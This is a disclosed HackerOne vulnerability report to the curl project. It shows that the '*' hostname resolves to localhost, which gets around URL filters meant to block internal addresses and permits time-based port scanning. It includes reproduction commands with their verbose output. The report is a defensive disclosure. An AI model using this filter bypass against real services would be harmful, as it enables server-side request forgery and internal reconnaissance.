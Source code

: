 # Port and service scanning on localhost due to improper URL validation.

## Report Details
- **Report ID**: 773313
- **URL**: https://hackerone.com/reports/773313
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-13T09:25:45.926Z
- **Disclosed**: 2020-01-15T07:38:19.186Z

## Reporter
- **Username**: vshmuk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Generally web masters and developers protect user-accessible CURL from requesting forbidden domains so that the attacker is not able to access internal resources. It is usually done using regular expressions.
Mostly addresses like 127.x.x.x, 192.168.x.x and "integer" notation of IP addresses (like 2130706433 = 127.0.0.1) are filtered out before executing curl using wrapper scripts.
But the ' * ' symbol is valid for CURL, allowing to request localhost's internal web resources and to scan ports. Unfortunately, since http0.9 is turned off by default now, it's harder to easily scan ports (without accessing stderr by the attacker). But if FTP protocol is not disabled, port scanning can still be achieved using time-based attack: active refusal of a closed port takes much less time than connecting by FTP to any other open port.
As far as i see, ' * ' and 'localhost' are not synonyms, and ' * ' string should be filtered out not on the webmaster's side but from inside of CURL.

## Steps To Reproduce:
```
$ ./src/curl -V
curl 7.69.0-DEV (x86_64-pc-linux-gnu) libcurl/7.69.0-DEV OpenSSL/1.1.1d

$ ./src/curl -v "*"
*   Trying ::1:80...
* TCP_NODELAY set
* connect to ::1 port 80 failed: Connection refused
*   Trying 127.0.0.1:80...
* TCP_NODELAY set
* connect to 127.0.0.1 port 80 failed: Connection refused
* Failed to connect to * port 80: Connection refused
* Closing connection 0
curl: (7) Failed to connect to * port 80: Connection refused

$ ./src/curl -v "*:8888"
*   Trying ::1:8888...
* TCP_NODELAY set
* connect to ::1 port 8888 failed: Connection refused
*   Trying 127.0.0.1:8888...
* TCP_NODELAY set
* Connected to * (127.0.0.1) port 8888 (#0)
> GET / HTTP/1.1
> Host: *:8888
> User-Agent: curl/7.69.0-DEV
> Accept: */*
> 
<skip>
Hello world!
* Closing connection 0

$ ./src/curl -v "ftp://*:8888"
*   Trying ::1:8888...
* TCP_NODELAY set
* connect to ::1 port 8888 failed: Connection refused
*   Trying 127.0.0.1:8888...
* TCP_NODELAY set
* Connected to * (127.0.0.1) port 8888 (#0)
^C

./src/curl -v "ftp://*:80"
*   Trying ::1:80...
* TCP_NODELAY set
* connect to ::1 port 80 failed: Connection refused
*   Trying 127.0.0.1:80...
* TCP_NODELAY set
* connect to 127.0.0.1 port 80 failed: Connection refused
* Failed to connect to * port 80: Connection refused
* Closing connection 0
curl: (7) Failed to connect to * port 80: Connection refused
```

## Supporting Material/References:

According to https://tools.ietf.org/html/rfc1034, wildcards are special symbols in DNS and should not be used as domain names..

## Impact

The vulnerability allows attacker to at least access internal web resources restricted to localhost, or at most to scan locally opened ports and expose services running on the machine.

## Attachments
No attachments

